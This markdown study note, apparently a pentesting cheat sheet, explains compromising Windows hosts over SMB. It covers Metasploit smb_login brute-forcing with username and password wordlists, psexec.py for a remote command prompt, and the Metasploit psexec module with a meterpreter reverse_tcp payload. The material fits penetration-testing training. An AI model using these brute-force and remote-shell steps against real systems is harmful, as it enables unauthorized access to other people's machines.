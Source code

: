 # Exploiting SMB with PsExec

## Contents
- [Methodology](#)
  - [What is PsExec?](#)
  - [SMB Exploitation with PsExec](#)
- [Techniques & Tools](#)
  - [Brute Force with MSF](#)
  - [Access with PsExec](#)
    - [1. psexec.py](#)
    - [2. Metasploit](#)

## Methodology

### What is PsExec?
- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote Windows systems using any user's credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

### SMB Exploitation with PsExec
- In order to utilize PsExec to gain access to a Windows target, we need to identifiy legitimate user accounts first, along with their respective passwords or password hashes. 
- This can be done by leveraging various tools and techniques.
- However, the most common technique will involve performing an SMB login brute-force attack.
- We can narrow down our brute-force attack to only include common Windows user accounts like...
  - `Administrator`  (which is constant across all Windows installations)
- After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell. 

## Techniques & Tools

- Start with your standard nmap scan (`-sV -sC`) to see what you have.
- Often it will be SMB2 is running on port 445
- **"_Message signing is enabled but not required_"**: KEY!! This means you can brute-force it.

### Brute Force with MSF
```
msfconsole
> search smb_login
> use [that module]
> info
  # to see what it does
> options
> set RHOSTS [target ip]
> set RPORT
  # if it's not set to 445 already
> set SMBDomain
  # if the target is part of a Domain
> set SMBPass [password]
  # if you know it, to verify it
> set SMBUser [username]
  # if you know it, to verify it
> set USER_File [path to text file of usernames]
  # example: /usr/share/metasploit-framework/data/wordlists/common_users.txt
> set PASS_File [path to text file of passwords]
  # example: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
> set verbose false
  # only display successful authentication attempts
> run
```
- That should give you creds... admin cred is what we want.

### Access with PsExec

#### 1. psexec.py

> This is a Windows executable but we are in Linux, so in Linux you need... psexec.py Python program.
```
psexec.py Administrator@[target ip] [command to execute; e.g., cmd.exe]
# or for access without executing a command
psexec.py Administrator@[target ip]
```
- You'll be prompted for the password
- This should give you a cmd command prompt on the target system: `whoami`

#### 2. Metasploit 
> You can do the same thing in MetaSploit
```
> search psexec
  # We're looking for the module that will authenticate on the target via SMB
  # Then it will upload necessary files to establish a meterpreter session
  # Antivirus programs on the target might catch this b/c you are uploading files and executing them.
> use /exploit/windows/smb/psexec
> show payloads
  # check the default payload (should be okay if its windows/meterpreter/reverse_tcp)
> set RHOSTS, LHOST, LPORT, SMBUser, SMBPass
> run
```
- Should give you a meterpreter session
- 
